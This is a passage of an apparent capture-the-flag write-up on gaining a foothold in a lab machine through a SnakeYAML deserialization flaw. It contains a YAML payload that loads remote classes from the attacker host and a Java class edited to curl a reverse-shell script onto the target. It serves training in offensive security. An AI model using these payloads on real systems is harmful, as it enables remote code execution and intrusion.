 ## Foothold
Searching on Google it was possible to find some interesting articles talking about a **deserialization vulnerability** (CVE-2017-1000207) impacting the SnakeYaml software, the exact same component used by the YAML parser.

[https://securitylab.github.com/research/swagger-yaml-parser-vulnerability/](https://securitylab.github.com/research/swagger-yaml-parser-vulnerability/)
[https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858)

CVE-2017-1000207:
> A vulnerability in Swagger-Parser's version <= 1.0.30 and Swagger codegen version <= 2.2.2 yaml parsing functionality results in arbitrary code being executed when a maliciously crafted yaml Open-API specification is parsed. This in particular, affects the 'generate' and 'validate' command in swagger-codegen (<= 2.2.2) and can lead to arbitrary code being executed when these commands are used on a well-crafted yaml specification.

As discussed in the articles, sending a specific payload to the parser allowed to obtain a request from it.
The Poc used for the test was the following:
```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.24"]]]]
```

Submitting the PoC to the parser it was possible to obtain a connection back to the attacker machine:
```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ophiuchi]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [02/May/2021 13:34:48] "GET / HTTP/1.1" 200 -
```

Confirmed the existence of the vulnerability, to get a working RCE it was necessary to craft a specific payload or alternatively find an working one. After some googling the following GitHub repo was found, presenting itself as "A tiny project for **generating payloads for the SnakeYAML deserialization gadget**".
Repo: [https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)

Once cloned the repository, the `AwesomeScriptEngineFactory.java` file was edited to download a malicious bash reverse shell on the target:
```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ nano src/artsploit/AwesomeScriptEngineFactory.java

import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
        Runtime.getRuntime().exec("curl http://10.10.14.24/rs.sh -o /tmp/revshell.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
        ...
```
